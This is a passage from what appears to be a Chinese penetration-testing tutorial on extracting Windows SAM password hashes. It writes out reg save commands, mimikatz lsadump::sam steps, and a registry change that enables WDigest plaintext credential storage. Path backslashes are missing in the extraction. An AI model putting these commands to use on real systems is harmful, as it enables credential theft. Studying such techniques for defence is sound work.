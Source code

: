     HKEY_LOCAL_MACHINESAMSAMDomainsAccountUsers
    
        

中每个用户的F和V的键值内容，使用syskey进行解密

**离线读取sam数据库**-
1、导出数据库

    方法一（注册表）：
    
    reg save HKLMSYSTEM c:usersuserdesktopSYSTEM
    
    reg save HKLMSAM c:usersuserdesktopSAM
    
    方法二（复制文件）：
    
    存放路径
    
    C:WindowsSystem32configSYSTEM
    
    C:WindowsSystem32configSAM
    
    因为正常内存中可能无法被打开
    
        

2、使用mimikatz导出用户hash

    lsadump::sam /sam:sam /system:system
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200929174051797.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**目标机器直接读取**

根据目标相应位数传入mimi，管理员权限启动mimikatz

    privilege::debug
    
    token::elevate
    
    lsadump::sam
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200929174120871.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**使用procdump.exe进行内存转储**

作用：

微软维护工具，主要使用它来进行内存转储。Windows在运行的时候不能复制SYSTEM和SAM文件。

该方法只能在Window 2003、Windows 2008、Windows 2008 R2，且没有打补丁（KB2871997）的情况下可以获取该系统在未清理内存（意为未重启）时存储的登录信息凭证。

Windows 2012及以上版本需要开启注册表记录明文密码，方可转储。

方法：

    HKLM:SYSTEMCurrentControlSetControlSecurityProvidersWDigest的”UseLogonCredential”设置为1，型为DWORD 32�
    
        

cmd修改：

    reg add HKEY_LOCAL_MACHINESYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 1
    